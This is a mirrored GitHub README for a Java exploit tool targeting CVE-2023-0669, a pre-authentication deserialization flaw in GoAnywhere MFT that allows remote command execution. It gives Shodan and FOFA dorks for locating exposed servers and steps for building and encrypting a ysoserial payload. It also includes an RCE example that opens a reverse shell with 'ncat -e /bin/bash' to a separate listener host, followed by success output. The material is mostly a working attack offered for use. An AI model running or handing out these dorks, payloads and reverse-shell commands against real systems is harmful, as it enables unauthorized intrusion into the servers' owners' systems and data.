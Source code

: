 # CVE-2023-0669

CVE-2023-0669 GoAnywhere MFT suffers from a pre-authentication command injection vulnerability in the License Response Servlet due to deserializing an arbitrary attacker-controlled object.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/0xf4n9x](https://github.com/0xf4n9x) |
| Url      | [https://github.com/0xf4n9x/CVE-2023-0669](https://github.com/0xf4n9x/CVE-2023-0669)                                               |
| Stars    | 80                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2023-0669
> GoAnywhere MFT suffers from a pre-authentication command injection vulnerability in the License Response Servlet due to deserializing an arbitrary attacker-controlled object.

## Dork

### shodan

```
title:"GoAnywhere"
```

### FOFA

```
title="GoAnywhere"
```

## Use

### Java Version

```bash
java -version
openjdk version "1.8.0_362"
OpenJDK Runtime Environment (Zulu 8.68.0.21-CA-macos-aarch64) (build 1.8.0_362-b09)
OpenJDK 64-Bit Server VM (Zulu 8.68.0.21-CA-macos-aarch64) (build 25.362-b09, mixed mode)
```

### Help

```shell
java -jar CVE-2023-0669.jar -h
```

```shell

   _______    ________    ___   ____ ___  _____       ____  _____ _____ ____ 
  / ____/ |  / / ____/   |__ \ / __ \__ \|__  /      / __ \/ ___// ___// __ \
 / /    | | / / __/________/ // / / /_/ / /_ <______/ / / / __ \/ __ \/ /_/ /
/ /___  | |/ / /__/_____/ __// /_/ / __/___/ /_____/ /_/ / /_/ / /_/ /\__, / 
\____/  |___/_____/    /____/\____/____/____/      \____/\____/\____//____/  
                                                                             
GoAnywhere MFT suffers from a pre-authentication command injection vulnerability in the License Response Servlet due to deserializing an arbitrary attacker-controlled object.

usage: Options
 -c,--command <arg>   Expected commands to be executed
 -e,--encrypt <arg>   Encrypt the specified deserialized content
 -h,--help            Print help information
 -p,--proxy <arg>     Proxy Address, eg: http://127.0.0.1:8080
 -path <arg>          Target Endpoint, default: /goanywhere/lic/accept
 -t,--target <arg>    Target URL
 -v,--version <arg>   Version Encryption, 1/2, default: 1

Example: 
java -jar CVE-2023-0669.jar -p http://127.0.0.1:8080 -t https://192.168.1.1 -c 'ncat -e /bin/bash 192.168.1.2 4444'
java -jar CVE-2023-0669.jar -e ./payload.ser

```

### Encryption

Generating deserialized data using ysoserial.

```shell
java -jar ysoserial-all.jar CommonsBeanutils1 "touch /tmp/CVE-2023-0669" > payload.ser
```

Use this tool for encryption.

```shell
java -jar CVE-2023-0669.jar -e ./payload.ser
```
```shell
   _______    ________    ___   ____ ___  _____       ____  _____ _____ ____ 
  / ____/ |  / / ____/   |__ \ / __ \__ \|__  /      / __ \/ ___// ___// __ \
 / /    | | / / __/________/ // / / /_/ / /_ <______/ / / / __ \/ __ \/ /_/ /
/ /___  | |/ / /__/_____/ __// /_/ / __/___/ /_____/ /_/ / /_/ / /_/ /\__, / 
\____/  |___/_____/    /____/\____/____/____/      \____/\____/\____//____/  
                                                                             
[*] Files expected to be encrypted: ./payload.ser
[*] Version Encryption: 1
[+] Successful encryption: Jh88_jqGQWSbZmiCc1DErQhwOhCTLkYmA1yXgf86Ha5HF9IfVuQMLOfBS_fjlP7wTTEg2-Jx9nBDyFUKVTroXpFBt7zN1XDX58VKZCxCXlUD45d4laUUnNuzdyvNLT2b_gYKBi2-ny7fc2lOHNgalYV13mQzCTs0EgEUE9AuDUIMcFYx00pv4g4EOgEjeWbAx40rTtRby71AxapyXKy-4XChDHVlPB1AV3njBKGWT6gHdPxT8hb75Ycrpjdk9EQ1v4XlsWf2pcEuH1eHc_2CHlgeErjMGfXyXh9lNdrEoAOtw1UQOnhxT8clRjShGbSJSjIqgD8WyLRI0WsHnhdxBEgW8AluKnVsysck6loZL29Z9aaH-P4kvMzNqVmnIcvZ1_h3RLrtpSkbAbHXO0x0OpfU6f4T7xkoeMKt18mECpB1b_wIptrx4zYgHBYPwrmdjqyvCd_hfgIUWZ78QxN6-lffTHygs1TkMThebklF8vPAvqbye3LbxSo7BZ0NqSJpc8w4cdBYH2cYRVYBbiZvks_xiNTair_iGeK4RvzRnXhIwqwvY-5r0jf1Tb38rQY69pgKSwNFpPbkVJEUowSYIgldWMvTJo5I3ajtAeHHQKsClreyH0k86avvdtW4CpT-5GzUGCh3Ot5m35kFlJUPwkO2mIlGFGMmzjCi8SRurhahWTINnx1hyr_V8LrDNnf6IQ6mgnWdAJmN8F_vWvChrcUsFkHCzltO3B4IG3nLfqkc0N7aXkCfXO3ctiJDSv0u0xTuLufYMDJ4JiyTBAJvXx9pfO8g_WBzYly8g_gSoIGdxHKGAMSj9LL1xS9iOdc0lpDHm3e-MBruzJTsuBscRrKPy9DsEf8cO5XVuUUEgsR9X1dVnv5ob3rMSAljnPvY5rH4rss8dL7PDPG0BZFL_PzEoOfljlsQlVNdO8QqlrOynDhVvgGcS4VD4LQB_M-vdYf-2tdmrzPE2aOyhWSq3gT7-kBC5QgM74i38PNrbqs2YNz05fDxrLftMys53BlLl7vdkQPQjGpNtRwmkYfFCr8uz3vqs5RYfTWDVKOCNHQs2VYqokhGgvvVGbzkuL5IoPpFDLsXEy6OCHj3c3HueqH1MRMQj72NbEfy1eBxZzKVRCfC3OuuyHOnqCW9JIaWxy-TXUJO0AKqzO5WPXG9SXDWcycOw2wD1zUCSQDQ6lv1EnXdJ7BkgVxP_kLukWDwWNQpAwshpxtrTc_TWt6KW7iZxkyuoKS6X8JnkfsKZBvGhnFNFVM7_E4jRHv-_DL0QvGwgnh6vMdU5MQ5ubN31MYCxsIxeRaAUJohUM6gf84sb2HlXZhHyleZu1PdSGCgTv6Alqw-D1S2M2jZj67BZ-YLPY9xpy_t4j8SrQ8HfmcAD8T9_Yuj4o9khMLzyKMi14AKZjlXox7CdYEP8pVvso-mrO3R7p5N2QWuQtYTtOiGtaIGQnLsKL5WdqeZlQRKi_QWWEfTYIk0g54DFTRJ8Rso_Bn4wLaQBwOXOI6UrN4vtZmRKzmCtDkNXJOdoTaSmQWMz04OHdeg2RVfJ8rHFdPo_HfMKYnPc_ipCcHOoI_VFZN1Rj7caGXrsUsjWXatnYDiiTXLaWjcrOEkt6RdB4Ask8UP9MXwmaStgIijXXjElINFmYbmTISeGFBun7cGe3nSx99RLXX1J0yxyr9uiiOZZlfcNX1tmzGzdOwqf1CoblV1V24NiGaZLZpLa7oCkTbVy84yxorC8TSLQdGz2Jkdq0mdwZRtfVlCfVX9PDhz8BF6BaNIDpGp4p_-TyZZw9w2-CwpmHf6kfbQtdqOyU9Ro7zyzLKn97KWf7dvlMyexnlJzmM_cEorOCmiPVvOEA_WpejGNA88V3e4A3EjMWisPpltOWgWrO6AlddgVfOx7eWALXmZ9i1rEjsl6ry0cbzcFGChdYpau42vQFsTh8x4NuKiHSIRkslQ8APf54sfsElkZYn05GFqx4HJ0OZjzL1lKnKBfI51JOYOBI7iah-p3__s8XonJqIq3PLJ9sTTYjWBmWnhIGm1VPizdiRInH2EHi6ZCmFtTo9A7zXrvWK52wBz-MFLh6CUEQHxuVbZm26KNNH9clEjJL7HnxuVbt0RLNeFJQxci4kfue2jhmhWXcy3TWgz33DZ28h3kzIb1JehJwQ_qv1_RasC-KmNLYKaLftMj9O5nPw0wYlRGhkQ-z7IE_KU75fPKMdCrDNuzaZxKNPSF4T3ryGM1WUu26YI0_TP5iTWFRs9C3dECmraBtgsPTkQUlN22IWy8uDW1BrZLy1FJ6F2V4aeUwmP4tDo3MML0nTgVU8kQG1R2fU-HbWG7F5uJrgqtz3O1JDnSVHFMlVUjg9zDpoT4hD3XjZJEJolq5XM5WzaNX52Iy172GUn-w-qvjq0xG_49fasSAZvKqtxi1zlB0utR0FPWboj_RBCleXStYCCc63LpJ34BcVt_MjOy9kacM_z5KYZXJcaSTxb0xXaRVCwm8wvJCiSCBOaD9b7g-P4rS11h1bZpBlGH-Eg48_2j0PyKLl3QP3Hu5kpgXwEFjKzeJeCwT04zP_wGsi3C4XpZ7IK6ZiAXjv7Kr4vVYCQV5q_6UYHK649fAyOngxE-RzIAbT6nXJqqIZbi4Md6NrKZ2SNVDo-fTrFTubyH7hO6IHMYHHEwdrNo-YjiQ2z3_jpt5eAWe1f1bjZGKy8qZVyWnCQvEkkS_1N55giIwJ1xaKgxIn7mKe8rQNmKfMEfBLvvMkSM_dGORFrBMSPMl8_rVDP7PsoKv9BBeolYNBjhCD6xUfdEyh71Ealq5oxRl-8M1dfdV6ppZKFdD1aBYw8rqHYSWh82AYoTv_QvsViLzBdbYQc685v3m0L6xNGuFkD2b1xX_4pfVunMlvPpKVAyYIXItKjomOScI4ZY9lmLIDyK5V9ss8At-6wQ3iaSJfcirNDm9uWVUNOrfkrkuKA89bS2TU-LnR2542O42NXuHwqAGsGNI0DYGIRQaGZ4BM5-WSBWByHu7SeoZIjRoLs5g3D5_nHhe22SdqWWig-10VWBvmOGX8FU5BmAtlV7iUAWhSS1-zIl1XjN6C0bj5Z5IUhnGA3WiPJD1QnZ9J-2X0ZgnQVzOl9Rcm3wutvG3xcwojbaU7ymy9FcCQKHt9NK7aATP2ekS4prm1yP_QdeT1KAeKYHWH7P8Tk-yF1NlH7w0QxpmRDgrEA24eCiIGlSOmH6dgXtYzs5BzosiwByq8pSo3gJCIUQtik9oOAmHx9ktsaKNEB6Js3ZUDNtr0pihbb2G8Tr5vWYxM2am3qyYQ1qEk5iJQqhpdsr9Tm5ddHzE9FWqX2zE5ckUadJp9WXiX-8nD3oVCmj61smGi6EgOVPPNbRNljW0OfCzRkcfPh-CRM8KUNNsNsRWxAdg67bDmaLVx53DrvaCzqYwiNn_y8aJCepzycakUTEeKB639VDQc_6JY6pMzhIBSiLuDQjWQnWuOkVwCtFHMm48gba9wATXm3R_3Q_tdaauyO1Gqwnxxz6ZLKzDQr04Oc9xJ-VmqR3kcRGath79aBUEx2ItL1cZCBI1bDTsZOawOMxRchNlr_d3166SyuPhcT7kIY4K2UvmQbvrBmOZlSKCiDgveNsEgpodcJ_tce7VLBebJjO4FMgajRl2sT-zboQLqCEp2yIXx1ELOxNfvK55Z9AxFsYx8HycL3AMWRPKvyXriFi7D8pEKhLt_A22AURMmaKIibgw==
```

Manually exploit the vulnerability in BurpSuite.

![burp](./burp.png)

### RCE

```shell
java -jar CVE-2023-0669.jar -p http://127.0.0.1:8080 -t http://192.168.1.1:8000 -c 'ncat -e 
/bin/bash 192.168.1.2 44445'
```
```shell
   _______    ________    ___   ____ ___  _____       ____  _____ _____ ____
  / ____/ |  / / ____/   |__ \ / __ \__ \|__  /      / __ \/ ___// ___// __ \
 / /    | | / / __/________/ // / / /_/ / /_ <______/ / / / __ \/ __ \/ /_/ /
/ /___  | |/ / /__/_____/ __// /_/ / __/___/ /_____/ /_/ / /_/ / /_/ /\__, /
\____/  |___/_____/    /____/\____/____/____/      \____/\____/\____//____/

[*] Target: http://192.168.1.1:8000
[*] Path: /goanywhere/lic/accept
[*] Proxy: http://127.0.0.1:8080
[*] Command: ncat -e /bin/bash 192.168.1.2 44445
[*] Version Encryption: 1
[+] Successful encryption: Jh88_jqGQWSbZmiCc1DErQhwOhCTLkYmA1yXgf86Ha5HF9IfVu...
[*] Exploiting...
[+] The exploit has been completed, please check.
```

![rce-demo](./rce-demo.png)

## References

- https://attackerkb.com/topics/mg883Nbeva/cve-2023-0669/rapid7-analysis
- https://frycos.github.io/vulns4free/2023/02/06/goanywhere-forgotten.html
- https://github.com/frohoff/ysoserial


## Get the content

```
git clone https://github.com/0xf4n9x/CVE-2023-0669
cd CVE-2023-0669
```

{% embed url="https://github.com/0xf4n9x/CVE-2023-0669" %}

<figure><img src="https://avatars.githubusercontent.com/u/40891670?v=4" alt=""><figcaption><p>0xf4n9x</p></figcaption></figure>

